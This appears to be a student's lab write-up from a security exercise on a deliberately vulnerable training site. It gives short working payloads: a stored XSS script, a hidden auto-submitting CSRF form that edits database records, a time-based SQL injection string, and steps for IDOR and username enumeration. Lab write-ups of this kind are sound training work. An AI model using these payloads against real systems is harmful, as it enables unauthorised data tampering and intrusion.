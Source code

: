 # Pentesting
Time spent: 8 hours spent in total

Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:

Username Enumeration
Insecure Direct Object Reference (IDOR)
SQL Injection (SQLi)
Cross-Site Scripting (XSS)
Cross-Site Request Forgery (CSRF)
Session Hijacking/Fixation
Each version of the site has been given two of the six vulnerabilities. 
(In other words, all six of the exploits should be assignable to one of the sites.)


# Green

Vulnerability #1: Cross-Site Scripting
![](xss_green.gif)
Attacker can inject an XSS in their feedback form.
Injected XSS Command:
<script>alert('Raj found the XSS!');</script>
This XSS runs once the account holder checks their feedback page

Vulnerability #2: Username Enumeration
![](username.gif)
As you can see from above, the Green Website has the Username Enumeration error where the failure to login message differs for the Username that exists vs doesn't exist.
The "failure" class is applied an bold style in css while "failed" class doesn't.

# Red
Vulnerability #1: Cross-Site Request Forgery (CSRF)
![](CSRF.gif)
Created a malicious page that utilizes the user's session to forge a request to the database:

<html>
<head>
<title>NOT A FAKE FORM</title>
</head>
<body onload="document.my_form.submit()">
<form action="https://35.184.88.145/red/public/staff/salespeople/edit.php?id=3" method="POST" name="my_form" style="display: none;" target="hidden_results" >
<input type="text" name="first_name" value="You Fool!" />
<input type="text" name="last_name" value="Sorry_Mr.Barker" />
<input type="text" name="phone" value="777-777-7778" />
<input type="text" name="email" value="TROLLED@TORLLED.COM" />
</form>
<iframe name="hidden_results" style="display: none;"></iframe>
</body>
</html>

This page secretly makes a post request on page load and hides the outcome in a hidden iframe.
 As result, an account in the database is altered.
 
 Vulnerability #2: Insecure Direct Object Reference
 ![](IDOR.gif)
 
 Above GIF show an attacker getting access to the hidden user's accounts that the attacker is not permitted to view.
 This is done through modifying the "id" parameter in the URL's to change the GET request.
 
 # Blue
 Vulnerability #1: SQL Injection (SQLi) 
 ![](SQLi.gif)
 The Attacker is Injects a sql command instead of the proper Salesperson's ID Number.
 Injected SQL Command: %27%20OR%20SLEEP(5)=0--%27
 This causes the Database command to wait for 5 seconds while quering the data.

